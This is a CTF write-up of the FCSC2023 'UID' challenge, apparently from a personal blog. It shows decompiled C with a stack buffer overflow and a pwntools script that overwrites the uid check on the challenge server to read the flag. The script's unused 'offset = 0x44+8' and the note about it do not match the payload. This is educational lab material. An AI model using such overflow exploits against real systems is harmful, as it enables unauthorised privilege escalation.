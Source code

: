 ```yaml
---
title: CTFs | FCSC2023 | UID
author: BatBato
date: 2023-05-02
categories: [CTFs, FCSC2023, Intro]
tags: [CTF, FCSC, BoF]
permalink: /CTFs/FCSC2023/Intro/UID
---
```


# UID

![image](https://user-images.githubusercontent.com/73934639/235730343-6932dc50-9b9e-4b9a-be8a-041c644e0bf0.png)

For this chall, we had a really simple compiled C code. This code, analysed with Ghidra looked like this:

```C
undefined8 main(void)

{
  undefined local_38 [44];
  __uid_t local_c;
  
  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

This basically just check if your user id is equal to `0` which is the `root` uid. The length of the string was 44 chars long. So we just need to input `44` chars, followed by a 0 to overwrite the value of the `local_c` variable:

```python
from pwn import *

# offset to return address
offset = 0x44+8

# Start the process
#p = process("./uid")
p = remote('challenges.france-cybersecurity-challenge.fr', 2100)
p.recvuntil("username: ")

# Craft the payload
payload = b"A" * 44 # Fill the buffer until the end of local_38
payload += p64(0)   # Overwrite local_c with 0 (use p64 for 64-bit value)

# Send the payload
p.sendline(payload)

# Print the output
print(p.recvall().decode())
```

> Note that we added `+8` at the offset so that we can overwrite the next address.
{: .prompt-tip}

This gives us:

![image](https://user-images.githubusercontent.com/73934639/235733792-be7bbae5-10f9-4d83-a878-54888f1f7aaf.png)

